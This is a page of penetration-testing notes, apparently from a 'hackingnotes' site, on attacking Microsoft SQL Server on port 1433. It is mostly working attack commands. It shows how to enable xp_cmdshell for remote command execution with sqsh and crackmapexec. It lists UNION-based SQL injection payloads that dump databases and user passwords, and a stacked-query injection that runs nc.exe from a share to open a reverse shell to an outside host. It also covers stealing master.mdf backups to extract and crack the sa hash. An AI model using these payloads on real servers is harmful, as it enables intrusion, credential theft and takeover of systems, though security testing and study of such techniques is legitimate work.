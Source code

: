 ```yaml
---
title: PORT 1433/tcp - Microsoft SQL Server
category: Services
order: 10
---
```


# Introduction

Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network.

# RCE With Credentials

## sqsh

```
sqsh -S <IP-ADDR> -U <user> -P <pass> -D <database>
```

In MSSQL there is a procedure called **xp\_cmdshell** that receives a command from Windows, executes it and return the result as rows of text. Although the most common case is that the user of the application does not have permissions to execute the **xp\_cmdshell** procedure because is disabled by default, it has been seen on several occasions that, due to a misconfiguration, it does have permissions to enable it.

We need to configure `xp_cmdshell`.

```
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> RECONFIGURE
2> go
```

Once configured we can execute commands with `sqsh` or `crackmapexec`.

```
1> xp_cmdshell 'dir c:\';
2> go
```

## crackmapexec

We can execute code in a easier way with crackmapexec.

```
crackmapexec mssql -u sa -p password --local-auth -x 'whoami'
```

# SQL Injection in MSSQL

To understand the vulnerability visit the following page link.

* [SQL Injection](/hackingnotes/web/sqli/)

Some SQLi payloads are the following (supposing that the original query return two values):

```
' union all select 1,2 -- -

# Current User
' union all select CURRENT_USER, 2 -- -

# Databases
' union all select name, 2 from master..sysdatabases -- -

# Tables from database "music"
' union all select name, 2 from music..sysobjects  WHERE xtype = 'U' -- -

# Columns from "users" table
' union all select name, 2 from syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users') -- -

# Dump a table
' union all select user, password from users -- -
```

We can also append commands on the query and execute commands with the procedure **xp\_cmdshell.**

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- -
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
'; EXEC xp_cmdshell '\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10 443' -- - 
```

# LFI or File Download to RCE

If we are able to download any file of the system and has the MSSQL port open, we can retrieved the **sa** hash.

We need to download a copy of the master.mdf file located on:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/DATA/master.mdf
or
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLSERVER/MSSQL/DATA/master.mdf
```

Since the file is running we can not read it, so we need to find a backup. Some backups are available here:

```
C:/Program Files/Microsoft SQL Server/MSSQL14.SQLEXPRESS/MSSQL/Backup/master.mdf
```

Once downloaded we can dump the hashes with [XPN script.](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

> **Note:** The code fails while trying to load OrcaMDF dlls, see the following pull request to fix it.
>
>[https://github.com/xpn/Powershell-PostExploitation/pull/2](https://github.com/xpn/Powershell-PostExploitation/pull/2)

_File changed:_

![Tothi pull request.](/hackingnotes/images/file_changed.png)

We just need to import the module and extract the hashes.

```
Import-Module Get-MDFHashes.psq
Get-MDFHashes -mdf master.mdf
```

![Dumping mdf hashes](/hackingnotes/images/mdf_hashes.png)

We can crack it with Hashcat (mode 1731).

```
hashcat -a 0 -m 1731 hash.txt /usr/share/wordlists/rockyou.txt
```

Once obtained the credentials we can execute code with `crackmapexec` or `sqsh`.

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

# **References**

* [https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.](https://www.tarlogic.com/blog/red-team-tales-0x01/#:\~:text=In%20MSSQL%2C%20there%20is%20a,occurs%20in%20the%20original%20query.)
* [https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/](https://dotcppfile.wordpress.com/2014/07/24/reading-files-in-mssql-injection-tutorial/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
